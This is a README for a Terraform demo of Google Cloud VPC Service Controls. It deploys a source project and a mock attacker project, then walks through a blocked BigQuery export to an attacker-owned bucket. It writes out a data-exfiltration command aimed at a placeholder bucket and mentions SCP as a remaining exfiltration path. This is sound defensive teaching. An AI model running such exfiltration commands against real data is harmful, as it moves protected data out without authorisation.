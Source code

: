 # VPC Service Controls Demo

## Dependencies

* `gcloud/bq`
* Org Admin Role

## Overview

![](fixtures/arch.png)

This terraform code will create:

* 2 projects: source and target/attacker
* Bastion in a private subnet with Private Google Access enabled
* Firewall rule allowing SSH via IAP into the Bastion
* BigQuery Dataset/Table which is loaded with test data
* Target Bucket for the exfil attempt
* All necessary IAM bindings
* Org policy forbidding external IPs on Instances
* VPC Service Control perimeter around BigQuery and GCS in the source project

## Setup

There's a few steps needed to get this demo up and running properly or you'll have a difficult time setting it up later

1. Create a Seed Project
2. Use the [project factory helper script](https://github.com/terraform-google-modules/terraform-google-project-factory/blob/master/helpers/setup-sa.sh) to create a Service Account in your seed
3. Since this service account will be creating BigQuery Datasets and Storage Buckets as well as VPC Service Control perimeters, it'll need a few more permissions. At the Org level, add `Access Context Manager Admin`, and at the Folder level, add `BigQuery Admin` and `Storage Admin` to the seed project Service Account.
4. Run `cp terraform.tfvars.sample terraform.tfvars` and then update that file with your own values.

Now you should be good to go. If not please create an issue detailing your problem so I can update this guide.

## Deployment

Since we have to first create the two projects, we have a Makefile that makes applying this easy. Just run:

```
make apply_projects
```

This will apply both source and target projects to test out VPC SC and subsequently write the IDs into the `env.sh`. This file is sourced first before the subsequent `apply`. Now you can run:

```
make apply
```


## Demo


First you'll want to get the bucket name from either the state or looking in the console:

```
terraform state show google_storage_bucket.target_bucket | grep url | cut -f2 -d'=' |sed -e 's/^ "//' -e 's/"$//'
```

Next log into the Bastion instance using `gcloud`. Notice how it will say something about tunnelling through IAP?
That's because the instance doesn't have a public IP!

```
gcloud compute ssh bastion-vm
```

Once you're on the instance, you'll notice that you're logged in as the service account with a user like `sa_1234567890@bastion-vm` which tells you that OS Login was used.

Go ahead and take a look at your config, which should show you which service account you are using. You should be able to successfully run the following command and get some BigQuery data:

```
bq head project_1_dataset.cars
```


Now lets be a bit evil! We're going to attempt to exfil the data from this host to another GCP account that we own.
Since we own it, we can grant the Service Account for the bastion Owner permissions on the target account. This was already
done for you in the Terraform in `storage.tf`. Since we are Owner of the target account, without VPC SC, we could extract the
entire table into a GCS bucket that we own, but with VPC SC protecting our BigQuery, that won't work. Let's try it anyway!
Using the bucket name you printed earlier (we'll call it BUCKET_URL), let's try to extract the cars table to the target bucket.
You should get an output that looks something like this:

```
bq extract project_1_dataset.cars BUCKET_URL/cars.csv
BigQuery error in extract operation: VPC Service Controls: Request is prohibited by organization's policy.
```

Success!! Data exfil prevented! But what about PasteBin? Or AWS S3? Or any number of services??

If you look at the subnet we put our Bastion in, you'll notice the line:

```
private_ip_google_access = true
```

You also may notice that we didn't give this thing a NAT. This means we limited the scope of egress traffic to ONLY Google APIs,
which subsequently means that you can't make outbound requests to these type of storage services over the internet. Now does this
mean you are completely safe from exfil? Absolutely not! As long as the user's machine has access to the bastion she can SCP data
from that host. There are other controls you can add as well but VPC SC mitigates a very common threat of data exfil.
